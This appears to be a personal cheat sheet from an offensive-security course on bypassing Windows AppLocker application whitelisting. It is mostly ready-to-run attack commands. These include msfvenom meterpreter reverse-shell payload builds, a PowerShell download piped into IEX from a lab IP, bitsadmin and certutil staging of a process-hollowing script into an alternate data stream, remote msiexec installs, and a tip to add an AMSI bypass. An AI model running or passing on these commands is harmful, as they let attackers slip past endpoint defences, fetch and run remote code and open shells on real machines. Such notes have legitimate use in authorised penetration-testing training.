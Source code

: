 ### **MAIN BYPASS METHODS:**
- Shell:
    1. MSBuild.exe > Hollow.csproj
    2. InstallUtil.exe > In-memory PS load Hollow.dll
- PS Commands (Enumeration):
    1. InstallUtil.exe > In-memory PS download scripts and run
    2. MSBuild.exe > PowerLessShell.py-generated .csproj file w/ PS commands

### Background

    //Software Restriction Policies (SRP) > AppLocker > Windows Defender Application Control (WDAC) / Device Guard
    //AppLocker is only available on Enterprise and Ultimate editions of Windows (not Professional)
    //Rule types: file path, file hash, digital signature
    //Applying rules: Student login (Admins are exempt); as admin cmd: gpedit.msc; Local Group Policy Editor: Local Computer Policy -> Computer Configuration -> Windows Settings -> Security Settings -> Application Control Policies > AppLocker
        **    //Enable policies, then configure rules; To apply:  gpupdate /force
            //Test:  copy C:\Windows\System32\calc.exe calc2.exe; calc2.exe
            //View logs in Event Viewer
            
    *Check for AppLocker rules:  Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
        //*Rules don't apply to built-in local accounts (Local System, Local Service, Network Service) or to IIS DefaultAppPool account
            //only have to worry if you migrate into another user's process

### Basic Bypasses

    https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md

    - Finding Writable/Executable Folders:
        Step 1: find writable (run as admin):  
            accesschk.exe "student" C:\Windows -wus
            accesschk.exe "student" "C:\Program Files" -wus
            accesschk.exe "student" "C:\Program Files (x86)" -wus
        Step 2: check each if executable too:  
            icacls.exe C:\Windows\Tasks
        Candidates:
            C:\Windows\Tasks, C:\Windows\Temp, C:\Windows\tracing, C:\Windows\System32\spool\drivers\color\, etc.    
        *Or:  https://raw.githubusercontent.com/3gstudent/Bypass-Windows-AppLocker/master/AppLockerBypassChecker-v1.ps1
            (new-object system.net.webclient).downloadstring('http://192.168.45.158/AppLockerBypassChecker-v1.ps1') | IEX

    - Bypass with DLLs:   
        //applocker doesn't prevent loading dlls by default
            ex. rundll32 C:\Tools\TestDll.dll,run
        //DLL whitelisting can be present
            **Bypass by copying the dll into C:\Windows\Tasks, etc.
            ex. sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o /var/www/html/met.dll
                rundll32 C:\Windows\Tasks\met.dll,xyz

    - Bypass with Alternate Data Streams:    
        //ADS Method (if you can edit a file but not write to the directory - and execution is only allowed from that directory):
            sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -a x64 -f exe -o /var/www/html/meterpreter64.exe
            type C:\temp\meterpreter64.exe > "C:\Program Files\Program\log.txt:meterpreter64.exe"
            dir /R "C:\Program Files\Program"
            wmic process call create '"C:\Program Files\Program\log.txt:meterpreter64.exe"'     
        ex. using test.js:
                var shell = new ActiveXObject("WScript.Shell");
                var res = shell.Run("cmd.exe");
            type test.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
            dir /r "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log"
            wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"      

    - ** MSIExec:
        sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -a x64 -f msi -o /var/www/html/powershell.msi
        msiexec /quiet /i cmd.msi
        //remote and renamed:  msiexec /q /i http://192.168.100.3/tmp/cmd.png    

    - 3rd Party Execution: CHECK FOR LANGUAGES LIKE PYTHON INSTALLED - they're not blocked
        ex. sudo msfvenom -p cmd/windows/python/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw

    - APPLOCKER DOESN'T STOP VBA/OFFICE MACROS - try that!

    //**Hollower example with ADS - only working with .js (after converting w/ DotNetToJScript):
        //add amsi bypass to top of script!
        certutil -encode \\192.168.45.188\visualstudio\DotNetToJScript-master\DotNetToJScript\bin\Release\Hollow.js \\192.168.45.188\visualstudio\file.txt
        bitsadmin /Transfer myJob http://192.168.45.188/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:Hollow.js" && del C:\users\student\enc.txt
        wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:Hollow.js" 